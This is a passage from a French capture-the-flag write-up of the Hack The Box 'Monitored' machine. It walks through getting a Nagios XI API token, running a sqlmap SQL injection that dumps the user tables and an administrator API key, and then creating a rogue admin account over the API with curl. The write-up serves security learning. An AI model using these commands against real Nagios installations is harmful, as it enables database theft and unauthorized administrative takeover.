 1. Nous envoyons une requête POST à ce point de terminaison avec les informations d'identification de l'utilisateur et nous recevons un token 

```
curl -k -L -X POST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate" -d "username=svc&password=XjH7VCehowpR1xZB"
```

![Token retrieval](/images/HTB-Monitored/token-retrieval.png)

2. Nous utilisons ce token pour lancer une injection SQL

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=895ab920b8c2b4196e16ee5c4f6c4470fbd77bae" -p id --level 5 --risk 3 --dump 
```

Lorsque le message `GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]` apparaît entrez `N`.

![SQLmap command](/images/HTB-Monitored/sqlmap.png)

SQLmap commencera à extraire toutes les tables de la base de données mais nous pouvons inspecter les tables qui nous intéressent en allant dans `/home/<Votre_nom_d'utilisateur>/.local/share/sqlmap/output/nagios.monitored.htb/dump/`. Nous savons que la vulnérabilité est liée aux tables `xi_session` et `xi_users`.

![SQLmap tables dump](/images/HTB-Monitored/tables-dumped.png)

Vous pouvez aussi défiler sur le terminal et trouver le dump de la table `xi_users`. Nous trouvons la clé API pour l'utilisateur `Nagios Administrator` `IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`.

![API key found](/images/HTB-Monitored/API-key.png)

> Des hashs de mots de passe sont également présents dans le dump mais nous ne sommes pas en mesure de les craquer.

Nous n'avons toujours pas d'identifiants valides pour nous connecter à Nagios XI et il n'y a aucun moyen de s'inscrire. Notre seule option est de trouver comment ajouter un nouveau compte.

Après quelques recherches, nous trouvons comment ajouter de nouveaux utilisateurs via l'API [ici](https://support.nagios.com/forum/viewtopic.php?t=42923) et sur cette [page](https://support.nagios.com/forum/viewtopic.php?f=6&t=40502) nous apprenons également comment ajouter un compte administrateur en utilisant le paramètre `auth_level`.

![NagiosXI add users via API](/images/HTB-Monitored/nagiosxi-api.png)

La commande ci-dessous est utilisée pour créer un nouvel utilisateur admin.  Les champs `username`, `email`, `name`, et `password` sont obligatoires.

```
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=adminsec&password=password123&name=kscorpio&email=kscorpio@monitored.htb&auth_level=admin"
```
